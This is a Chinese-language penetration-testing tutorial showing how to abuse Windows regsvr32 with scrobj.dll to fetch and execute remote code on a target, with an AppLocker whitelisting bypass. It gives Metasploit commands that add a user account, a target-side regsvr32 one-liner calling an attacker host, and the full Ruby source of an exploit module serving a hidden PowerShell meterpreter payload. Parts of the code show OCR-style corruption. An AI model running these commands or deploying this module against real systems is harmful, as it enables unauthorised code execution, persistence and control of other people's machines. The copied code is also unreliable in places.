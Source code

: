 **注：**请多喝点热水或者凉白开，身体特别重要。

### Regsvr32简介：

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。但搭配regsvr32.exe使用的 DLL，需要提供 DllRegisterServer 和 DllUnregisterServer两个输出函式，或者提供DllInstall输出函数。

**说明：**Regsvr32.exe所在路径已被系统添加PATH环境变量中，因此，Regsvr32命令可识别。

Windows 2003 默认位置：
```bash
C:\WINDOWS\SysWOW64\regsvr32.exe
C:\WINDOWS\system32\regsvr32.exe
```


**攻击机：**192.168.1.4 Debian  
**靶机：** 192.168.1.119 Windows 2003  

msf 已内置auxiliary版本的regsvr32_command_delivery_server，但是最新版已经无exploit版本regsvr32，文章结尾补充。

### 配置攻击机msf：
```bash
msf auxiliary(server/regsvr32_command_delivery_server) > use auxiliary/server/regsvr32_command_delivery_server
msf auxiliary(server/regsvr32_command_delivery_server) > set CMD net user Micropoor Micropoor /add
CMD => net user Micropoor Micropoor /add
msf auxiliary(server/regsvr32_command_delivery_server) > exploit 

[*] Using URL: http://0.0.0.0:8080/ybn7xESQYCGv
[*] Local IP: http://192.168.1.4:8080/ybn7xESQYCGv
[*] Server started.
[*] Run the following command on the target machine:

regsvr32 /s /n /u /i:http://192.168.1.4:8080/ybn7xESQYCGv scrobj.dll 
```
![](media/415719c964de78a36a9cad8e7d273025.jpg)

### 靶机执行：
```bash
regsvr32 /s /n /u /i:http://192.168.1.4:8080/ybn7xESQYCGv scrobj.dll
```
![](media/d6dba86fd41bcac90db86ecc3dc6e7e7.jpg)

![](media/392c2c955e7d666b5015f30149866cf5.jpg)  

![](media/d9c0e792eced1468f86880e42bc28a56.jpg)  

![](media/d70caf10069603b0d0bffa73ecbabc29.jpg)

### 附：powershell 版 Regsvr32

**regsvr32_applocker_bypass_server.rb**
```ruby
##

# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit‐framework

## 

class MetasploitModule < Msf::Exploit::Remote
Rank = ManualRanking 

include Msf::Exploit::Powershell
include Msf::Exploit::Remote::HttpServer 

def initialize(info = {})
super(update_info(info,
'Name' => 'Regsvr32.exe (.sct) Application Whitelisting Bypass Serve r', 'Description' => %q(
This module simplifies the Regsvr32.exe Application Whitelisting Bypass technique.
The module creates a web server that hosts an .sct file. When the user types the provided regsvr32 command on a system, regsvr32 will request the .sct file and then execute the included PowerShell command.
This command then downloads and executes the specified payload (similar to the web_delivery module with PSH).
Both web requests (i.e., the .sct file and PowerShell download and execute) can occur on the same port.
),

'License' => MSF_LICENSE,
'Author' =>
[
'Casey Smith', # AppLocker bypass research and vulnerability discover y(\@subTee)
'Trenton Ivey', # MSF Module (kn0)
],
'DefaultOptions' =>
{
'Payload' => 'windows/meterpreter/reverse_tcp'
},
'Targets' => [['PSH', {}]],
'Platform' => %w(win),
'Arch' => [ARCH_X86, ARCH_X86_64],
'DefaultTarget' => 0,
'DisclosureDate' => 'Apr 19 2016',
'References' =>
[
['URL', 'http://subt0x10.blogspot.com/2016/04/bypass‐application‐whitelisting‐script.html']
]
))
end 

def primer
print_status('Run the following command on the target machine:')
print_line("regsvr32 /s /n /u /i:\#{get_uri}.sct scrobj.dll")
end 

def on_request_uri(cli, _request)
# If the resource request ends with '.sct', serve the .sct file
# Otherwise, serve the PowerShell payload
if _request.raw_uri =~ /\.sct$/
serve_sct_file
else
serve_psh_payload
end
end 

def serve_sct_file
print_status("Handling request for the .sct file from #{cli.peerhost}")
ignore_cert = Rex::Powershell::PshMethods.ignore_ssl_certificate if ssl
download_string = Rex::Powershell::PshMethods.proxy_aware_download_and_exec_string(get_uri)
download_and_run = "#{ignore_cert}#{download_string}"
psh_command = generate_psh_command_line(
noprofile: true,
windowstyle: 'hidden',
command: download_and_run
)
data = gen_sct_file(psh_command)
send_response(cli, data, 'Content‐Type' => 'text/plain')
end 

def serve_psh_payload
print_status("Delivering payload to #{cli.peerhost}")
data = cmd_psh_payload(payload.encoded,
payload_instance.arch.first,
remove_comspec: true,
use_single_quotes: true
)
send_response(cli,data,'Content‐Type' => 'application/octet‐stream')
end 

def rand_class_id
"#{Rex::Text.rand_text_hex 8}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex12}"
end 

def gen_sct_file(command)
%{<?XML version="1.0"?><scriptlet><registrationprogid="\#{rand_text_a lphanumeric 8}"
classid="{#{rand_class_id}}"><script><![CDATA[ var r = ne wActiveXObject("WScript.Shell").Run("#{command}",0);]]><script></registration></scriptlet>}
end 

end
```

**使用方法：**

copy regsvr32_applocker_bypass_server.rb to /usr/share/metasploit-framework/modules/exploits/windows/misc  

![](media/f0b5c59eb47dd53e8780a31320b41113.jpg)

>   Micropoor
